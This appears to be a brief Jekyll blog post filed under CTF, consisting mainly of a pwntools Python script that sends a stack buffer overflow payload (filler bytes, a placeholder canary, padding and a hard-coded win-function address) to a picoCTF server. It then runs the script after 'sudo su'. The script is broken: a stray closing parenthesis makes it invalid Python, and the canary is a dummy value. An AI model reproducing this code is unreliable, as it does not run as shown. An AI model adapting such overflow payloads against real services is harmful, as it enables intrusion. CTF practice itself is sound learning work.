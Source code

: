 ```yaml
---
layout: post
title: "Post 2"
date: 2024-03-17
categories: CTF
tags: [web-exploitation, reverse-engineering]
author: sam
img_path: /assets/img/posts
---
```


Another post. 

> Passwords are good!
{: .prompt-tip }

```python
from pwn import *


host, port = "saturn.picoctf.net", 52235
conn = remote(host, port)

)
buffer_size = 64
canary = "AAAA"  # Replace with the actual canary value
win_address = p32(0x5655625d)  # p32 converts the address to little-endian


payload = b"A" * buffer_size  # Fill the buffer
payload += canary.encode()    # Add the canary
payload += b"B" * 4           # Padding between the canary and the return address
payload += win_address        # Overwrite the return address with the win function address

# Send the payload
conn.sendline(payload)


try:
    response = conn.recvall()
    print(response)
except EOFError:
    print("Received EOFError, which may indicate a failed exploit or closed connection.")


conn.close()


```

```shell
sudo su
python3 payload_script.py

```
{: .nolineno }




![The Lock](gg.webp){:style="display:block; margin-left:auto; margin-right:auto; width:50%;"}
